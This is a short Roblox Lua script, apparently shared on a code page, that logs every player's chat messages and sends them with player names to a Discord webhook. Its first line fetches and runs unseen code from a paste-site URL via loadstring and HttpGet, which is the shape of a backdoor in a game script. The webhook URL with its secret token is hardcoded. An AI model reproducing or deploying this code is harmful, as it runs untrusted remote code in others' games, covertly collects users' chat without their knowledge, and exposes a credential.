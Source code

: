 loadstring(game:HttpGet("https://pastefy.app/atGimaom/raw",true))()
local HttpService = game:GetService("HttpService")
local Players = game:GetService("Players")

local WEBHOOK_URL = "https://discord.com/api/webhooks/1365038151109709954/qE6YWvW3fRvN8YKs6hcsdKzlqQPtJK_RGVyuWfpM2-Ipb-HrZ_GwRYABxl3y7zTFUBMj"

Players.PlayerAdded:Connect(function(player)
    player.Chatted:Connect(function(message)
        local data = {
            ["content"] = "**"..player.Name.."** said: " .. message
        }

        local success, response = pcall(function()
            HttpService:PostAsync(WEBHOOK_URL, HttpService:JSONEncode(data), Enum.HttpContentType.ApplicationJson)
        end)

        if not success then
            warn("Failed to send chat message to Discord:", response)
        end
    end)
end)

